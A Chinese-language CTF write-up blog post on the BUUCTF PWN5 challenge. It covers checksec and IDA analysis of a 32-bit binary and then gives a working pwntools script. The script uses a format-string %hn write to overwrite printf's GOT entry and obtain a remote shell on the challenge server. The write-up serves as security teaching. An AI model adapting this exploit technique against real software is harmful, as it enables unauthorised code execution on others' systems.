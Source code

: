 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      BUUCTF 第五空间PWN5				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - 格式化字符串漏洞
---
```


# 第五空间2019 决赛PWN5

## 考点

- 格式化字符串漏洞

## 解题过程

1. 首先使用`checksec`工具查看基本信息

![checksec](/img/posts/2023-10-23-第五空间2019-决赛PWN5/checksec.png)

​		为32位，canary，dep防护

2. 使用ida工具进行静态分析。

`main`

![main](/img/posts/2023-10-23-第五空间2019-决赛PWN5/main.png)

​		main函数主要代码如上图所示，可以看见`print((int)v7)`存在格式化字符串输出漏洞，因此可以考虑进行利用（**注：由于输入read限制了输入长度，导致无法通过泄漏canary方法来进行栈溢出攻击。**）

3. 构造python脚本如下，主要思路为修改printf的got表plt地址为要执行的代码地址（若开启full relro则无法使用），然后再代码执行到下一次调用printf函数时会转去执行目标代码。获得shell。

```python
from pwn import *

context(arch="i386", log_level="debug")
# p = process("./pwn")
p = remote("node4.buuoj.cn", 29338)

elf = ELF("./pwn")
printf_got = elf.got["printf"]
info(printf_got)
vuln_1 = str(0x0804)
vuln_2 = str(0x931A-0x0804)

payload = flat(b'%', vuln_1, b'c',b'%17$hn', b'%', vuln_2, b'c', b'%18$hn')
payload = payload.ljust(28, b'\x00')
payload = flat(payload, printf_got+2, printf_got)
# gdb.attach(p, 'b *0x080492BC')
p.sendlineafter(b'your name:', payload)
p.recvuntil(b"Hello,")

p.interactive()
```

## 结果

![result](/img/posts/2023-10-23-第五空间2019-决赛PWN5/result.png)
